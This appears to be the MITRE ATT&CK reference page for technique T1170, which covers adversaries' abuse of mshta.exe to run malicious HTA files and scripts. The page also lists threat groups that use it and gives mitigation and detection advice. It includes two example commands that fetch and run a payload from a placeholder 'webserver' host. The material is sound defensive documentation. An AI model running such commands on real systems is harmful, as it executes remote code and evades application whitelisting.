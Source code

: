 <div class="container-fluid">
 <h1>
  Mshta
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension
    <code>
     .hta
    </code>
    .
    <span class="scite-citeref-number" data-reference="Wikipedia HTML Application" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://en.wikipedia.org/wiki/HTML_Application" target="_blank">
       [1]
      </a>
     </sup>
    </span>
    HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.
    <span class="scite-citeref-number" data-reference="MSDN HTML Applications" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://msdn.microsoft.com/library/ms536471.aspx" target="_blank">
       [2]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code
    <span class="scite-citeref-number" data-reference="Cylance Dust Storm" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://www.cylance.com/content/dam/cylance/pdfs/reports/Op_Dust_Storm_Report.pdf" target="_blank">
       [3]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="Red Canary HTA Abuse Part Deux" id="scite-ref-4-a">
     <sup>
      <a aria-describedby="qtip-3" data-hasqtip="3" href="https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/" target="_blank">
       [4]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="FireEye Attacks Leveraging HTA" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="Airbus Security Kovter Analysis" id="scite-ref-6-a">
     <sup>
      [6]
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="FireEye FIN7 April 2017" id="scite-ref-7-a">
     <sup>
      <a aria-describedby="qtip-6" data-hasqtip="6" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" target="_blank">
       [7]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Files may be executed by mshta.exe through an inline script:
    <code>
     mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    </code>
   </p>
   <p>
    They may also be executed directly from URLs:
    <code>
     mshta http[:]//webserver/payload[.]hta
    </code>
   </p>
   <p>
    Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.
    <span class="scite-citeref-number" data-reference="GitHub SubTee The List" id="scite-ref-8-a">
     <sup>
      [8]
     </sup>
    </span>
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1170
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Ricardo Dias; Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.1
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0050">
      APT32
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0050">
       APT32
      </a>
      has used mshta.exe for code execution.
      <span class="scite-citeref-number" data-reference="Cybereason Oceanlotus May 2017" id="scite-ref-9-a" onclick="scrollToRef('scite-9')">
       <sup>
        <a aria-describedby="qtip-8" data-hasqtip="8" href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt" target="_blank">
         [9]
        </a>
       </sup>
      </span>
      <span class="scite-citeref-number" data-reference="Cybereason Cobalt Kitty 2017" id="scite-ref-10-a" onclick="scrollToRef('scite-10')">
       <sup>
        <a aria-describedby="qtip-9" data-hasqtip="9" href="https://cdn2.hubspot.net/hubfs/3354902/Cybereason%20Labs%20Analysis%20Operation%20Cobalt%20Kitty.pdf" target="_blank">
         [10]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0046">
      FIN7
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0046">
       FIN7
      </a>
      has used mshta.exe to execute VBScript to execute malicious code on victim systems.
      <span class="scite-citeref-number" data-reference="FireEye FIN7 April 2017" id="scite-ref-7-a" onclick="scrollToRef('scite-7')">
       <sup>
        <a aria-describedby="qtip-6" data-hasqtip="6" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" target="_blank">
         [7]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0250">
      Koadic
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0250">
       Koadic
      </a>
      can use MSHTA to serve additional payloads.
      <span class="scite-citeref-number" data-reference="Github Koadic" id="scite-ref-11-a" onclick="scrollToRef('scite-11')">
       <sup>
        <a aria-describedby="qtip-10" data-hasqtip="10" href="https://github.com/zerosum0x0/koadic" target="_blank">
         [11]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0069">
      MuddyWater
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0069">
       MuddyWater
      </a>
      has used mshta.exe to execute its
      <a href="https://attack.mitre.org/software/S0223">
       POWERSTATS
      </a>
      payload and to pass a PowerShell one-liner for execution.
      <span class="scite-citeref-number" data-reference="FireEye MuddyWater Mar 2018" id="scite-ref-12-a" onclick="scrollToRef('scite-12')">
       <sup>
        <a aria-describedby="qtip-11" data-hasqtip="11" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" target="_blank">
         [12]
        </a>
       </sup>
      </span>
      <span class="scite-citeref-number" data-reference="Securelist MuddyWater Oct 2018" id="scite-ref-13-a" onclick="scrollToRef('scite-13')">
       <sup>
        <a aria-describedby="qtip-12" data-hasqtip="12" href="https://securelist.com/muddywater/88059/" target="_blank">
         [13]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0228">
      NanHaiShu
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0228">
       NanHaiShu
      </a>
      uses mshta.exe to load its program and files.
      <span class="scite-citeref-number" data-reference="fsecure NanHaiShu July 2016" id="scite-ref-14-a" onclick="scrollToRef('scite-14')">
       <sup>
        <a aria-describedby="qtip-13" data-hasqtip="13" href="https://www.f-secure.com/documents/996508/1030745/nanhaishu_whitepaper.pdf" target="_blank">
         [14]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0223">
      POWERSTATS
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0223">
       POWERSTATS
      </a>
      can use Mshta.exe to execute additional payloads on compromised hosts.
      <span class="scite-citeref-number" data-reference="FireEye MuddyWater Mar 2018" id="scite-ref-12-a" onclick="scrollToRef('scite-12')">
       <sup>
        <a aria-describedby="qtip-11" data-hasqtip="11" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" target="_blank">
         [12]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0341">
      Xbash
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0341">
       Xbash
      </a>
      can use mshta for executing scripts.
      <span class="scite-citeref-number" data-reference="Unit42 Xbash Sept 2018" id="scite-ref-15-a" onclick="scrollToRef('scite-15')">
       <sup>
        <a aria-describedby="qtip-14" data-hasqtip="14" href="https://researchcenter.paloaltonetworks.com/2018/09/unit42-xbash-combines-botnet-ransomware-coinmining-worm-targets-linux-windows/" target="_blank">
         [15]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Mshta.exe may not be necessary within a given environment since its functionality is tied to older versions of Internet Explorer that have reached end of life. Use application whitelisting configured to block execution of mshta.exe if it is not required for a given system or network to prevent potential misuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the binary being executed.
 </p>
 <p>
  Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://en.wikipedia.org/wiki/HTML_Application" name="scite-1" rel="nofollow" target="_blank">
        Wikipedia. (2017, October 14). HTML Application. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://msdn.microsoft.com/library/ms536471.aspx" name="scite-2" rel="nofollow" target="_blank">
        Microsoft. (n.d.). HTML Applications. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.cylance.com/content/dam/cylance/pdfs/reports/Op_Dust_Storm_Report.pdf" name="scite-3" rel="nofollow" target="_blank">
        Gross, J. (2016, February 23). Operation Dust Storm. Retrieved September 19, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/" name="scite-4" rel="nofollow" target="_blank">
        McCammon, K. (2015, August 14). Microsoft HTML Application (HTA) Abuse, Part Deux. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html" name="scite-5" rel="nofollow" target="_blank">
        Berry, A., Galang, L., Jiang, G., Leathery, J., Mohandas, R. (2017, April 11). CVE-2017-0199: In the Wild Attacks Leveraging HTA Handler. Retrieved October 27, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       Dove, A. (2016, March 23). Fileless Malware – A Behavioural Analysis Of Kovter Persistence. Retrieved December 5, 2017.
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html" name="scite-7" rel="nofollow" target="_blank">
        Carr, N., et al. (2017, April 24). FIN7 Evolution and the Phishing LNK. Retrieved April 24, 2017.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-8">
      <span class="scite-citation-text">
       Smith, C. (2017, July 14). TheList.txt. Retrieved October 27, 2017.
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="9.5">
    <li>
     <span class="scite-citation" id="scite-9">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt" name="scite-9" rel="nofollow" target="_blank">
        Dahan, A. (2017, May 24). OPERATION COBALT KITTY: A LARGE-SCALE APT IN ASIA CARRIED OUT BY THE OCEANLOTUS GROUP. Retrieved November 5, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-10">
      <span class="scite-citation-text">
       <a class="external text" href="https://cdn2.hubspot.net/hubfs/3354902/Cybereason%20Labs%20Analysis%20Operation%20Cobalt%20Kitty.pdf" name="scite-10" rel="nofollow" target="_blank">
        Dahan, A. (2017). Operation Cobalt Kitty. Retrieved December 27, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-11">
      <span class="scite-citation-text">
       <a class="external text" href="https://github.com/zerosum0x0/koadic" name="scite-11" rel="nofollow" target="_blank">
        Magius, J., et al. (2017, July 19). Koadic. Retrieved June 18, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-12">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.fireeye.com/blog/threat-research/2018/03/iranian-threat-group-updates-ttps-in-spear-phishing-campaign.html" name="scite-12" rel="nofollow" target="_blank">
        Singh, S. et al.. (2018, March 13). Iranian Threat Group Updates Tactics, Techniques and Procedures in Spear Phishing Campaign. Retrieved April 11, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-13">
      <span class="scite-citation-text">
       <a class="external text" href="https://securelist.com/muddywater/88059/" name="scite-13" rel="nofollow" target="_blank">
        Kaspersky Lab's Global Research &amp; Analysis Team. (2018, October 10). MuddyWater expands operations. Retrieved November 2, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-14">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.f-secure.com/documents/996508/1030745/nanhaishu_whitepaper.pdf" name="scite-14" rel="nofollow" target="_blank">
        F-Secure Labs. (2016, July). NANHAISHU RATing the South China Sea. Retrieved July 6, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-15">
      <span class="scite-citation-text">
       <a class="external text" href="https://researchcenter.paloaltonetworks.com/2018/09/unit42-xbash-combines-botnet-ransomware-coinmining-worm-targets-linux-windows/" name="scite-15" rel="nofollow" target="_blank">
        Xiao, C. (2018, September 17). Xbash Combines Botnet, Ransomware, Coinmining in Worm that Targets Linux and Windows. Retrieved November 14, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
